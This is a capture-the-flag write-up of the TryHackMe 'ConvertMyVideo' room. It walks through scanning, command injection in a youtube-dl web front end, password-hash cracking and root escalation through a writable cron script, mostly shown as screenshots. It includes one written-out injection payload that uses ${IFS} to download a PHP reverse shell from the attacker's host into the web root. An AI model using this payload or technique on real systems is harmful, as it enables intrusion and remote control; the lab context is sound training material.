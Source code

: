 # ConvertMyVideo TryHackMe Writeup
## Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](2.png)

## Enumeration
We access the website, we see that it is a simple application that collects the ID of a youtube video.

![](3.png)

We use **dirsearch** and list an interesting directory.

![](6.png)

We entry the *"/*******/"* directory and list a basic authentication panel.

![](4.png)

We continue reviewing the variable *"yt_url"* of the web application, investigating by Google I find this [github:](https://github.com/ytdl-org/youtube-dl/) where it shows us useful commands.

#### --version

![](7.png)

The **"--exec"** command not working....It seems that there are problems with the coding, looking for a way to solve the problem I discovered a way to be able to execute the **"ls"** command without problems.

![](8.png)

Okay, so let's use the payload so we can read the first flag.

![](9.png)


## Exploitation
We create a pentestmonkey reverse shell, raise a python server, set a netcat listening and use the following command to obtain a connection on the victim machine.

![](10.png)

```bash
<`wget${IFS}10.11.30.149:8000/m3.php${IFS}-O${IFS}/var/www/html/m3.php`
```

#### Reverse shell

![](11.png)

Once we have access to the inside of the machine, we read the file *".htpasswd"* and crack the hash with the dictionary **"rockyou.txt"**.

![](12.png)

#### Cracking with JTR

![](13.png)

## Privilege Escalation
After launching several reconnaissance scripts, I end up analyzing the processes that are being executed by the system on a scheduled basis with **pspy** tool and we detect a *"clean.sh"* script running with *"UID=0" (root)*.

![](14.png)

We check the permissions we have on the file, we see that we can write to it, so we insert a line to invoke a reverse shell with **netcat** and we put another **netcat** listening in our Kali.

![](15.png)

We wait a few minutes for the script to run with our malicious code and we will have an interactive connection as root.

![](16.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)
